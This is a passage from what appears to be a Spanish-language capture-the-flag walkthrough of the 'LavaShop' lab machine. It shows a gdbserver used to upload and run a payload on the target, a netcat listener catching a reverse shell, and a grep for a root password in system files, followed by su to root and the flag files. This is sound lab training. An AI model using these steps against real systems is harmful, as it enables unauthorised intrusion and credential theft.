 gdb binary.elf



# Conectar al gdbserver remoto

target extended-remote 192.168.56.8:1337

# Subir el archivo a la máquina víctima
remote put binary.elf binary.elf

# Establecer el archivo remoto a ejecutar
set remote exec-file /tmp/binary.elf

# Ejecutar el payload
run








┌──(kali㉿kali)-[~/Downloads/php_filter_chain_generator]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.56.7] from (UNKNOWN) [192.168.56.8] 60976
whoami
Rodri




====================================================================================================================================================================


Rodri@Thehackerslabs-LavaShop:/home/Rodri$ cat user.txt 
13dc7b1266b4aa6ca4cdab36b1596025



====================================================================================================================================================================


<www/html$ grep -r "ROOT_PASS" /etc /home /opt /var /usr/local 2>/dev/null
/etc/environment:ROOT_PASS=lalocadelaslamparas







====================================================================================================================================================================

www-data@Thehackerslabs-LavaShop:/etc$ su 
Password: lalocadelaslamparas


root@Thehackerslabs-LavaShop:/# cd root/
root@Thehackerslabs-LavaShop:~# ls
root.txt
root@Thehackerslabs-LavaShop:~# cat root.txt 
60493ecb4b8037433e584995b122c097
root@Thehackerslabs-LavaShop:~# 
